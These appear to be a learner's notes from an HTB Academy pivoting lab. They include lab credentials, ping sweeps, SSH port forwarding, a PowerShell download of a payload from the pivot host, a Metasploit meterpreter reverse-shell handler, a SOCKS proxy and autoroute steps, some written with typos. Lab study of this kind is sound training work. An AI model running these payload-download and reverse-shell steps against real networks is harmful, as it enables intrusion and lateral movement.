 
Pivot internal: 172.16.5.129
Network: 172.16.5.0/23
172.16.5.19:victor:pass@123


## Section 1
1. Question 1
```mermaid
flowchart TD
subgraph Z[" "]
direction LR
    A[Attacker]:::foo -->|ssh| B(Webserver):::bar ---> C(Target 2):::bar
    A[Attacker] --->|-L 8080:local:80| C(Target 2)
    classDef foo stroke:#f00
    classDef bar stroke:#0f0

end
```

Find host

for i in {1..255}; do (ping -c 1 172.16.5.${i} | grep "bytes from" &); done
64 bytes from 172.16.5.19: icmp_seq=1 ttl=128 time=0.310 ms
64 bytes from 172.16.5.129: icmp_seq=1 ttl=64 time=0.017 ms

## Section 2
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.160.193-fNv

Invoke-WebRequest -Uri "http://172.16.5.129:8123/backup.exe" -OutFile "C:\Users\victor\backup.exe"

sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https set LHOST 0.0.0.0; set 8000; exploit"

tools
internet options
security tab
truted zoneHTB_@cademy_stdnt10.129.218.108HTB_@cademy_stdnt!

## Section 3
- Steps
1. Upload meterpreter shell on the pivot

   - scp backupjob ubuntu@10.129.86.217:/home/ubuntu

2. Create listener (multi handler) on the attacker to listen to 1

    - session created

3. Execute ping sweep on the internal network

    - post(multi/gather/ping_sweep) = NO
      - set Session 1
      - set RHOST
    - run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23 = NO
    - for i in {1..254} ;do (ping -c 5 -i 5 172.16.5.$i | grep "bytes from" &) ;done 
    - for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done

4. Set up MSF sock proxy
    - auxiliary(server/socks_proxy) 
      - set SRVPORT 9050
      - set SRVHOST 0.0.0.0
      - jobs: 0   Auxiliary: server/socks_proxy

5. Create routes to internal subnet found on the pivot (module | inside meterpreter)
    - post(multi/manage/autoroute) >
      - set session
      - set subnet 172.16.5.0
    - run autoroute -s 172.16.5.0/23
      - run autoroute -p: 172.16.5.0         255.255.254.0      Session 6
